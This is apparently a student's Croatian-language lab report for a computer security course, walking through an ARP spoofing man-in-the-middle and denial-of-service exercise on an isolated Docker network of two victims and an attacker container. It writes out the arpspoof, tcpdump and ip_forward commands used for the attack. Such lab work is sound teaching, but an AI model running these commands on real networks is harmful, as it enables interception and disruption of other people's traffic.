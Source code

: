 # Sigurnost računala i podataka

## **LAB 1 - Man-in-the-middle attacks (ARP spoofing)**

U okviru prve laboratorijske vježbe analizirali smo ranjivost Address Resolution Protocol-a (ARP) koja napadaču omogućava izvođenje *man in the middle* i *denial of service* napada na računala koja dijele zajedničku lokalnu mrežu (LAN).

Napad je testiran koristeći virtualiziranu Docker mrežu koju čine 3 docker računala tj. 2 žrtve

(station-1 i station-2) i napadač (evil-station).

Pokrenuli smo Windows terminal aplikaciju i potom otvorili Ubuntu terminal na WSL sustavu.

Pozicionirali smo se u odgovarajući direktorij te klonirali GitHub repozitorij idućom naredbom:

`git clone https://github.com/mcagalj/SRP-2021-22`

Naredbom cd ušli smo u direktorij *arp-spoofing/* u kojem se nalaze skripte **start.sh** i **stop.sh** koje služe za pokretanje i zaustavljanje docker kontejnera.

**Pokretanje**

`$ ./start.sh`

**Zaustavljanje**

`$ ./stop.sh`

Potom smo pokrenuli shell station-1 i provjerili konfiguraciju mrežnog interface-a.

**Pokretanje shella station-1**

`$ docker exec -it station-1 bash`

**Provjera konfiguracije mrežnog interface-a**

`$ ifconfig -a`

Potom smo provjerili nalazi li se i station-2 na istoj mreži te pokrenuli shell za station-2.

**Provjera mreže**

`$ ping station-2`

**Pokretanje shella station-2**

`$ docker exec -it station-2 bash`

Potom smo ostvarili konekciju između station-1 i station-2.

**Station-1 → server na portu 8000**

`$ netcat -l -p 8000`

**Station 2 → client na hostname-u station-1 8000**

`$ netcat station-1 8000`

Da bismo napali, pokrenuli smo shell za evil-station i isprobali **tcpdump** (omogućava praćenje prometa) i **arpspoof**.

**Pokretanje shella evil-station**

`$ docker exec -it evil-station bash`

**Arpspoof**

`$ arpspoof -t station-1 station-2`

**Tcpdump**

`$ tcpdump`

Na koncu smo u potpunosti prekinuli konekciju između station-1 i station-2 idućom naredbom:

`echo 0 > /proc/sys/net/ipv4/ip_forward`